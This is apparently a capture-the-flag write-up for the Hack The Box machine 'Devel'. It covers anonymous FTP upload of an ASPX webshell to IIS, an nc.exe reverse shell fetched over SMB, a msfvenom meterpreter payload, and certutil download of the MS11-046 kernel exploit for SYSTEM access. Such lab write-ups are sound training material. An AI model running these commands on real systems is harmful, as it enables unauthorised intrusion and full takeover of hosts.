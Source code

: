 ```yaml
---
description: Work In Progress...
---
```


# Devel

## Overview

## Enumeration

As always we start with an Nmap scan. This is the one I ran

```bash
 sudo nmap -sV -sC 10.129.203.118 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 16:45 EDT
Nmap scan report for 10.129.203.118
Host is up (0.034s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
```

The scan reveals we have two services open: `Microsoft FTP` on `port 21` and `Microsoft IIS` web server on `port 80`.

### FTP

What's particularly interesting is that anonymous login is allowed on port 21 so let's explore that.

We'll make sure that anonymous login does work, which indeed it does.

![](<../../../../.gitbook/assets/image (11).png>)

However, there isn't anything useful for us here.

### IIS

We see what looks to be the default landing page for IIS

![](<../../../../.gitbook/assets/image (40) (1).png>)

Running a dirsearch on the website also did not prove to be useful.

### Curl

I ran a curl command with `-I` to get only the document info

```bash
curl -I http://10.129.203.118/
HTTP/1.1 200 OK
Content-Length: 689
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Wed, 23 Mar 2022 21:06:06 GMT
```

Seeing that the server is running ASP.NET and I have access to FTP, I can probably upload a webshell

## Foothold w/o Metasploit

### Webshell

I decided to go with the webshell from SecLists

![](<../../../../.gitbook/assets/image (7).png>)

Now we'll upload it over ftp:

![](<../../../../.gitbook/assets/image (46).png>)

We can access our webshell by visiting `10.129.203.118/cmd.aspx`

![](<../../../../.gitbook/assets/image (25) (1).png>)

Here's what returns when entering `whoami`

![](<../../../../.gitbook/assets/image (50).png>)

### Reverse shell

I'll be getting a shell with `nc.exe`

I use impacket-smbserver to host a windows netcat executable to then execute a connection to my kali machine

![](<../../../../.gitbook/assets/image (2).png>)

I also start a nc listener on my kali machine to catch a shell

![](<../../../../.gitbook/assets/image (2) (1).png>)

Entering the following command into the webshell:

```
\\10.10.14.3\share\nc.exe -e cmd.exe 10.10.14.3 443
```

![](<../../../../.gitbook/assets/image (3).png>)

And I get a shell!

![](<../../../../.gitbook/assets/image (1).png>)

## Foothold w/ Metasploit

I'll create the payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=443 -f aspx > meterpreter_rev_443.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2873 bytes
```

Put it on the FTP server

```
ftp> put meterpreter_rev_443.aspx
local: meterpreter_rev_443.aspx remote: meterpreter_rev_443.aspx
229 Entering Extended Passive Mode (|||49186|)
125 Data connection already open; Transfer starting.
100% |**************************************|  2910       34.68 MiB/s    --:-- ETA
226 Transfer complete.
2910 bytes sent in 00:00 (100.65 KiB/s)
```

Use the Metasploit module `exploit/multi/handler`

![](<../../../../.gitbook/assets/image (16).png>)

Visit the page&#x20;

```
http://10.129.203.118/meterpreter_rev_443.aspx
```

And catch a shell!

![](<../../../../.gitbook/assets/image (72).png>)

## Privilege Escalation

Running systeminfo in the shell shows us some good information

![](<../../../../.gitbook/assets/image (44).png>)

In particular, I'm interested in the OS Version, so I look up priv esc for this build and find a nice exploit to use.

{% embed url="https://www.exploit-db.com/exploits/40564" %}

Per the description:

> **Vulnerability description:**
>
> The Ancillary Function Driver (AFD) supports Windows sockets applications and is contained in the afd.sys file.&#x20;
>
> The afd.sys driver runs in kernel mode and manages the Winsock TCP/IP communications protocol.&#x20;
>
> An elevation of privilege vulnerability exists where the AFD improperly validates input passed from user mode to the kernel.&#x20;
>
> An attacker must have valid logon credentials and be able to log on locally to exploit the vulnerability.&#x20;
>
> An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode (i.e. with NT AUTHORITY\SYSTEM privileges)

We'll compile the code as suggested by the exploit

![](<../../../../.gitbook/assets/image (52).png>)

```
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Since we don't have full access to any user, we'll create a temp directory inside the Public folder and use something like certutil to upload the exploit and use a python http server to aid in the transfer

```
certutil -urlcache -f http://10.10.14.13/MS11-046.exe MS11-046.exe
```

![](<../../../../.gitbook/assets/image (8).png>)

![](<../../../../.gitbook/assets/image (70).png>)

Now we will run the exploit which should give us NT Auth\System level privileges

![](<../../../../.gitbook/assets/image (45).png>)

With our exploit executing successfully, we'll grab both the user and root flags!

![](<../../../../.gitbook/assets/image (56).png>)

![](<../../../../.gitbook/assets/image (23) (1).png>)
